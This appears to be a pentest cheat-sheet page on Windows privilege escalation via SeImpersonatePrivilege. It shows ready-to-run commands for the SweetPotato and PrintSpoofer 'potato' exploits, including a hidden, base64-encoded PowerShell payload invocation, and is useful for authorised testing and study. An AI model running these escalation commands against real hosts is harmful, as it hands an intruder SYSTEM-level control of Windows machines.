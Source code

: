 # SeImpersonatePrivilege

### Potatoes

Potatoes are a common way to escalate privileges on a Windows system after either the`SeImpersonate` or `SeAssignPrimaryToken` privileges have been enumerated. This can be accomplished quickly by running the following command:

```bash
whoami /priv
```

#### Sweet Potato

As noted by [Jorge Lajara](https://jlajara.gitlab.io/Potatoes\_Windows\_Privesc#sweetPotato), [Sweet Potato](https://github.com/CCob/SweetPotato) is one of the most successful potatoes to escalate privileges with. It contains the following exploits built-in to it, rendering the other potatoes obsolete:

> * RottenPotato
> * Weaponized JuicyPotato with BITS WinRM discovery
> * PrintSpoofer&#x20;
> * EfsRpc built on EfsPotato
> * PetitPotam

```bash
# Exploiting a host with SweetPotato
.\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```

### PrintSpoofer

```bash
# Verify that the Print Spooler service is running
Get-Service Spooler

# Run the PrintSpoofer executable to escalate privileges
.\PrintSpoofer.exe -i -c powershell
```

### References

{% embed url="https://jlajara.gitlab.io/Potatoes_Windows_Privesc" %}
Guidance on using Potatoes
{% endembed %}

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

{% embed url="https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/" %}
